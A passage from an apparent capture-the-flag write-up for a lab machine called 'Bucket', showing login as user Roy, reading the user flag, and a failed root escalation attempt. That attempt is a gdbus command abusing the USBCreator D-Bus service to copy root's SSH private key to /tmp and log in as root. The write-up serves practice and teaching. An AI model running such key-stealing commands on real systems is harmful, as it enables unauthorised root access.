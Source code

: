 Indeed, one of these passwords worked!  We not have Roy's account, and user access!
```
roy@bucket:/var/www/html$ cat /home/roy/user.txt
cat /home/roy/user.txt
48c6************************f5e1
```

We naïvely try the same hack we did in Passage to try to get escalate our access to root level:
```
roy@bucket:/var/www/html$ cd /tmp && gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true && ssh -i pwn root@bucket;
<ssh/id_rsa /tmp/pwn true && ssh -i pwn root@bucket;
Error: GDBus.Error:org.freedesktop.DBus.Error.ServiceUnknown: The name com.ubuntu.USBCreator was not provided by any .service files
```

No luck.  After being naïve, I recall that this hack worked because we had an `ssh` port open.  We do have this port open here, though this doesn't seem to work.  No worries.  

We note that Roy doesn't actually have an `.ssh` directory in his `home`.  So perhaps `ssh` is not the vulnerability here?